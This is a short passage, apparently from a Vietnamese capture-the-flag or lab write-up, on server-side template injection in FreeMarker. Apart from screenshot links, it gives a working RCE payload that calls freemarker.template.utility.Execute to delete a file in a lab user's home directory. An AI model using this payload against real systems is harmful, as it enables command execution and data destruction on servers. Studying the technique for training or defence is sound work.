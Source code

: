 ![Untitled](wu_media/Untitled%2014.png)

Tìm được payload thực hiện RCE cho template này

```java
"freemarker.template.utility.Execute"?new()("rm /home/carlos/morale.txt")
```

![Untitled](wu_media/Untitled%2015.png)

---